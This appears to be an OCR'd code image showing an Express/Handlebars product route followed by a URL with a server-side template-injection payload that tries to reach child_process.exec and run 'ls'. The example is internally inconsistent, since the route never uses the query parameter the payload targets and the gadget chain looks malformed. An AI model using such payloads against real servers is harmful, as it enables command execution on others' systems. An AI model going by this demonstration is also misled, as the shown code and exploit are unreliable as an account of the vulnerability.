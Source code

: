 source code:

```
app.get('/product/:id', function(req, res) {
    var productId = req.params.id;
    var product = getProductById(productId);

    var source = `
        <html>
            <body>
                <h1>{{ page }}</h1>
                <h2>{{ product.name }}</h2>
                <p>{{ product.description }}</p>
                <p>Price: {{ product.price }}</p>
            </body>
        </html>
    `;

    var template = Handlebars.compile(source);
    var context = {
        product: product,
        page: 'Product Detail'
    };
    var html = template(context);

    res.send(html);
});
```

```http://localhost:3000/product/1?page={{#with "constructors.constructor.prototype.process.mainModule.require"}}{{#with "child_process"}}{{#with "exec"}}{{this "ls"}}{{/with}}{{/with}}{{/with}}```

